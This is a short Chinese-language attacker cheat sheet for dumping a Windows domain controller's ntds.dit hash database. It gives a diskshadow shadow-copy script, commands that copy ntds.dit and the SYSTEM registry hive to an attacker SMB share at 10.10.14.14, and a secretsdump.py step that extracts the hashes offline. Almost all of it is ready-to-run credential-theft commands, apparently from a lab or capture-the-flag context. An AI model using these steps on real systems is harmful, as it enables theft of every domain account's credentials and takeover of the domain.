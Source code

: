 # ntds.dit（需要管员或backadmin）

本地管理员组的成员身份或同等身份是运行 Diskshadow 所需的最低要求。 以及Backup Operators 也可以

域控上存放所有用户的hash库\
一般来说直接拿不到，需要公开卷影复制服务 (VSS)\
详细步骤如下\
所需这个脚本**vss.dsh**\
如果是在kali编辑的可以

```clike
最好执行
unix2dos vss.dsh
来更好的为windows执行
```

```clike
-----------------vss.dsh--------------------
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
---------------------------------------------

upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh

确保所在目录可读可写
3. 建立smb共享，或者你先搞到本地然后传回去也行
4. 传递
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit
或者直接copy
5. 拿system
reg.exe save hklm\system \\10.10.14.14\system
6. 破解
secretsdump.py -system system -ntds ntds.dit LOCAL
```
